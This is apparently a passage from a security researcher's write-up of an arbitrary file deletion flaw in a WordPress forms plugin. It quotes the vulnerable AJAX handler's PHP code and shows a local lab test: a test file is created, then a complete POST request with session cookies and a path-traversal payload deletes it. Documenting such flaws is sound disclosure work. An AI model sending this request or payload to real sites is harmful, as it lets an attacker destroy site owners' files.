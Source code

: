 ```php
      unlink(BITFORMS_CONTENT_DIR . DIRECTORY_SEPARATOR . 'form-styles' . DIRECTORY_SEPARATOR . 'bitform-conversational-' . $formID . '.css');
    }
    [...]
  }
```

Which is used by class `AdminAjax` method `deleteAForm` and AJAX action `bitforms_delete_aform`:

```php
class AdminAjax
{
  public function register()
  {
    [...]
    add_action('wp_ajax_bitforms_delete_aform', [$this, 'deleteAForm']);
    [...]
  }
  [...]
  public function deleteAForm()
  {
    if (wp_verify_nonce(sanitize_text_field($_REQUEST['_ajax_nonce']), 'bitforms_save')) {
      $inputJSON = file_get_contents('php://input');
      $input = json_decode($inputJSON);
      $formHandler = FormHandler::getInstance();
      $status = $formHandler->admin->deleteAForm($_REQUEST, $input);
      [...]
    } else {
      [...]
    }
  }
```

Again, we can delete any files in the file system using the source `formID`, as there's no sanitization in the `formID` whatsoever.

Let's test this file deletion vulnerability one last time!

Create a test file:

```shell
root@9e2f4f189063:/var/www/html# echo -n 'test' > test.txt
root@9e2f4f189063:/var/www/html# chown www-data:www-data test.txt
root@9e2f4f189063:/var/www/html# ls -lah test.txt 
-rw-r--r-- 1 www-data www-data 4 Aug 22 11:43 test.txt
```

Send the following POST request:

```http
POST /wp-admin/admin-ajax.php?action=bitforms_delete_aform&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 75
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"id":"../../../../../../../../../../../../../var/www/html/test.txt"}
```
